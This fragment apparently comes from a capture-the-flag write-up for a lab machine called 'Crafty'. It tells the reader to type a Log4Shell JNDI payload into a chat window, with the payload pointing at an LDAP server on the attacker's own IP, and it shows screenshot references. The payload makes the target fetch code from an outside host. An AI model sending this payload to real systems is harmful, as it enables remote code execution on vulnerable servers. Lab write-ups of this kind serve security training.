 ![crafty_06.png](/assets/posts/crafty/crafty_06.png)

Run the following payload in chat as you can see in the screenshot below.

```
${jndi:ldap://10.10.14.86:1389/#Log4jShell}
```

Replace `10.10.14.86` with your attack host's IP address.
